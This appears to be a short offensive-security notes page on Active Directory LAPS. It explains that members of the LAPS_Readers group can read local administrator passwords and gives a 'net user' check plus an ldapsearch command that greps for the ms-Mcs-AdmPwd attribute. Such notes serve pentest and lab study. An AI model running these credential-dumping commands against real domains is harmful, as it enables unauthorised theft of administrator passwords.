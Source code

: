 # Group

## LAPS\_Readers

The '_Local Administrator Password Solution_' (_**LAPS**_) provides management of local account passwords of domain-joined computers. Passwords are stored in Active Directory (_**AD**_) and protected by _**ACL,**_ so only eligible users can read them or request its reset.

```bash
# checking the user group
net user <user>
```

<figure><img src="../.gitbook/assets/run-the-command-of-net-user-svc_deploy.png" alt=""><figcaption><p>Run the command of net user svc_deploy</p></figcaption></figure>

### LDAPsearch: Grab the credentials from LDAP

```bash
ldapsearch -x -H ldap://example.com -b "dc=example,dc=com" -D "user@example.com" -W | grep "ms-Mcs-AdmPwd"
```

